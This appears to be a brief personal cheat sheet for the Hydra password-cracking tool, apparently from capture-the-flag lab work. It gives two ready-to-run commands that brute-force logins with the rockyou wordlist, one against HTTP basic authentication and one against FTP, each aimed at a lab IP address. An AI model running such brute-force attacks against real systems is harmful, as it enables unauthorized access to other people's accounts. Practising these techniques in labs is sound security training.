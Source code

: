 # Hydra Usage

## HTTP-GET
```
hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.71.162 http-get /protected
```

## FTP
```
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.173.92 ftp
```